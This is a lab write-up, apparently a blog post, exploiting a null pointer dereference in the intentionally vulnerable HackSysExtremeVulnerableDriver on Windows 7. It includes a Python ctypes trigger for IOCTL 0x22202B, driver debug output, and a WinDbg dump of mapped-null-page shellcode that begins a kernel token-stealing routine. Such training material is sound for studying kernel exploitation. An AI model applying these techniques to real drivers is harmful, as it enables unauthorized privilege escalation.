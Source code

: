 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver NullPointerDereference
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

This challenge is very similar with the last one.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x22202B, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Execute the POC, we would get this info.
```
****** HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x877D5210
[+] UserValue: 0xFFFFFFFF
[+] NullPointerDereference: 0x877D5210
[+] Freeing NullPointerDereference Object
[+] Pool Tag: 'kcaH'
[+] Pool Chunk: 0x877D5210
[+] Triggering Null Pointer Dereference
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE ******
```
It triggers an exception, while it goes on working well.


## 0x002 Exploit it!

Look at this, if a UserValue not equal to 0xBAD0B0B0, the ptr would be set up to NULL, it will call Addr 0x4.
![](/assets/img/exploit/2018-08-05-hacksys-extreme-vulnerable-driver-nullpointerdereference/0x001.png)

Like the challenge "Pool Overflow", I map the Null page and overwrite Addr 0x4 with the address shellcode

Set a breakpoint at TriggerNullPointerDereference method
```
****** HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x87865C20
[+] UserValue: 0xFFFFFFFF
[+] NullPointerDereference: 0x87865C20
Breakpoint 1 hit
HEVD!TriggerNullPointerDereference+0xae:
8f5d1c8e 394508          cmp     dword ptr [ebp+8],eax
kd> dd 0x0
00000000  00000000 01c50000 00000000 00000000
00000010  00000000 00000000 00000000 00000000
00000020  68a2d4d0 fffffffe 00000000 00000001
00000030  68a06948 0000000d 68a0ab1c 01aab728
00000040  01aae020 00000000 00000000 00000000
00000050  00000000 00000000 00000000 00000000
00000060  00000000 00000000 00000000 00000000
00000070  00000000 00000000 00000000 00000000
kd> u 01c50000
01c50000 90              nop
01c50001 90              nop
01c50002 90              nop
01c50003 90              nop
01c50004 60              pushad
01c50005 64a124010000    mov     eax,dword ptr fs:[00000124h]
01c5000b 8b4050          mov     eax,dword ptr [eax+50h]
01c5000e 89c1            mov     ecx,eax
```

pwn~
![](/assets/img/exploit/2018-08-05-hacksys-extreme-vulnerable-driver-nullpointerdereference/0x002.png)
